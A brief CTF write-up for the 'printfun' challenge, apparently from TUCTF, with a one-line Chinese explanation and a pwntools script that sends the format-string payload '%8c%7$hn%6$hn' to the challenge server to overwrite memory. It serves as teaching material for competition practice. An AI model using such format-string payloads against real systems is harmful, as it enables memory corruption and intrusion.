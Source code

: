 ### printfun

> [附件](./printfun)

利用fmtstr漏洞同时改掉两个chunk上的内容

[Exploit script:](./pf.py)

```python
from pwn import *
context.log_level='debug'

# p = process('printfun')
p = remote("chal.tuctf.com",30501)

p.recvuntil('? ')
# gdb.attach(p)
p.sendline("%8c%7$hn%6$hn")

p.interactive()
```

